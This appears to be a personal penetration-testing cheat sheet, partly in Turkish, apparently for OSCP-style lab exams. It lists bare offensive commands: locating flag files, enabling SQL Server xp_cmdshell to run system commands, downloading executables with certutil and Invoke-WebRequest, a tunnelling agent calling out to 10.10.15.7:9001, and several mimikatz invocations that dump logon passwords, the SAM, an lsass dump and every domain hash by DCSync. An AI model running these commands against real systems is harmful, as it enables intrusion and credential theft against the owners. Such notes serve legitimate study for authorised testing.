 # Flag Finderz

- find / "local.txt" 2>/dev/null | grep "local.txt"
- find / "proof.txt" 2>/dev/null | grep "proof.txt"
- dir C:\ /s /b | findstr "local.txt"
- dir C:\ /s /b | findstr "proof.txt"


# xpcmdshell

-- SQL Server'da xp_cmdshell özelliğini aktif etmek

- EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- xp_cmdshell ile whoami komutunu çalıştırmak
- EXEC xp_cmdshell 'whoami';


# Python Web Server

- python3 -m http.server 8000

# Python Virtual Environment

- python3 -m venv myenv
- source myenv/bin/activate
- pip install -r requirements.txt

# BloodHound All Datas

- MATCH (n)-[r]->(m)
- RETURN n, r, m

certutil -urlcache -split -f "http://example.com/file.exe" file.exe

Invoke-WebRequest -Uri "http://example.com/file.exe" -OutFile "file.exe"

./agent -connect 10.10.15.7:9001 -ignore-cert

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

mimikatz.exe "privilege::debug" "lsadump::sam" "exit"

mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"


mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:example.com /all /csv" "exit"



